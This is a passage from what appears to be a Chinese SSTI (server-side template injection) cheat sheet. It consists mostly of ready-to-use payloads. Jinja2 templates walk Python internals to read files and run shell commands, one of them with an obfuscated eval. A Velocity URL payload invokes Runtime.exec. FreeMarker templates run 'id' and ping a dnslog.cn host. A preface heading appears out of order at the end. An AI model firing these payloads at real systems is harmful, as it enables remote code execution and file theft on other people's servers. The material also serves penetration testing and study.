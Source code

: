 ```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eva'+'l' in b.keys() %}
      {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("ls /").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

## Tornado

略 `{{handler.settings}}`

## Django

略

## 3. Java 中的 SSTI

### Velocity

```python
http://127.0.0.1:8080/ssti/velocity?template=%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor() //延迟了5秒
```

### FreeMarker

```python
{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

# **前言**

## **模板引擎**
